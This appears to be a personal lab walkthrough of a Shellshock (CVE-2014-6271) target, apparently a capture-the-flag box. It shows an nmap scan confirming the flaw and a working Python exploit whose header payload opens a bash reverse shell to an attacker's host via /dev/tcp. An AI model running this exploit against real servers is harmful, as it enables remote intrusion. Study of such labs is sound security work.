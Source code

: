 ---------working on it myself from this point----------

looked up "shellshock" found [nmap shellshock scripts](https://nmap.org/nsedoc/scripts/http-shellshock.html)

confirms it:

```bash
807 💀 ± ➤ nmap -sV -p 80,2222 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-10 00:19 NZST
Nmap scan report for 10.10.10.56
Host is up (0.28s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### shellshock bug

found this: [https://pastebin.com/raw/166f8Rjx](https://pastebin.com/raw/166f8Rjx)

added the hash-bang

```python
#!/usr/bin/env python2

#
#CVE-2014-6271 cgi-bin reverse shell
#

import httplib,urllib,sys

if (len(sys.argv)<4):
  print "Usage: %s <host /> <vulnerable CGI /> <attackhost/IP />" % sys.argv[0]
  print "Example: %s localhost /cgi-bin/test.cgi 10.0.0.1/8080" % sys.argv[0]
  exit(0)

conn = httplib.HTTPConnection(sys.argv[1])
reverse_shell="() { ignored;};/bin/bash -i >& /dev/tcp/%s 0>&1" % sys.argv[3]

headers = {"Content-type": "application/x-www-form-urlencoded",
  "test":reverse_shell }
conn.request("GET",sys.argv[2],headers=headers)
res = conn.getresponse()
print res.status, res.reason
data = res.read()
print data
```